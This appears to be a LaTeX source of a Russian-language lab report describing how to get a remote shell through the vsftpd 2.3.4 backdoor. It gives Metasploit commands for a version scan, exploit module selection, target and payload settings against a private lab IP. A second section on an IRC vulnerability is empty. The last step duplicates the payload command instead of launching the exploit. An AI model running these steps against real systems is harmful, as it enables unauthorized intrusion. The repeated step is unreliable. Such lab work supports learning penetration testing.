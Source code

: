 \documentclass[utf8x, 12pt]{G7-32}
\begin{document}
\section{Получить консоль используя уязвимость в vsftpd}
\begin{enumerate}

\item Сканируем целевую машину с целью определить версию ftp сервера
\begin{lstlisting}
msf auxiliary(smb_enumshares) > nmap 192.168.1.214 -p 21 -sV
\end{lstlisting}

\item Подключаемся к модулю эксплоита:
\begin{lstlisting}
msf > use exploit/unix/ftp/vsftpd_234_backdoor
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста 
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.1.214
\end{lstlisting}
\medskip

\item Подключаем файл с командами для эксплоита
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
\end{lstlisting}
\medskip


\item Запускаем эксплоит
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
\end{lstlisting}
\end{enumerate}




\newpage
\section{Получить консоль используя уязвимость в irc}
\end{document}
